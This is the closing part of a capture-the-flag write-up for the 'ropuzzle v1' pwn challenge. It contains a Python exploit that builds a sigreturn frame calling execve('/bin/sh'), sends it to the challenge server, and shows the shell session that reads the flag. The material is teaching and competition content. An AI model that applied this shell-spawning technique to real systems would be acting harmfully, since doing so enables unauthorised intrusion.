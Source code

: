 ```py  
frame.rax = 0x3b # execve()  
frame.rdi = bin_sh # /bin/sh address  
frame.rsi = 0  
frame.rdx = 0  
frame.rsp = 0x402000 # doesn't matter really  
frame.rip = 0x401072 # syscall

payload += bytes(frame) # add frame  
payload += b"/bin/sh\x00" # add /bin/sh

p.send(payload)  
p.interactive()

"""  
┌──(kali㉿kali)-[~/ctf/digitaloverdose/pwn/V1]  
└─$ python3 exploit.py  
[+] Opening connection to 193.57.159.27 on port 52852: Done  
[*] Switching to interactive mode  
$ ls -la  
total 16  
drwxr-xr-x. 1 root root   22 Oct  9 00:05 .  
drwxr-xr-x. 1 root root   17 Oct  8 23:36 ..  
-rwxr--r--. 1 root root 1523 Oct  9 00:05 flag.txt  
-rwxr-xr-x. 1 root root 9384 Oct  9 00:04 run  
$ cat flag.txt  
DO{DO{9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9+9*9*9*9*9*9*9*9+9*9*9*9*9*9*9+9*9*9*9*9*9*9+9*9*9*9*9*9*9+9*9*9*9*9*9+9*9*9*9*9*9+9*9*9*9*9*9+9*9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9*9+9*9*9*9+9*9*9*9+9*9*9*9+9*9*9*9+9*9*9*9+9*9*9*9+9*9*9+9*9*9+9*9*9+9*9+9*9+9*9+9+9+9+9+9+9//9+9//9+9//9+9//9+9//9+9//9+9//9}}  
$ id  
uid=101(ractf) gid=65534(nogroup) groups=65534(nogroup)  
$ exit  
"""  
```

PS: After seeing the flag, maybe I didn't do what the author intended ;)

Original writeup (https://lo0l.com/2021/10/11/digitaloverdose.html#ropuzzle-v1
---still-srop-).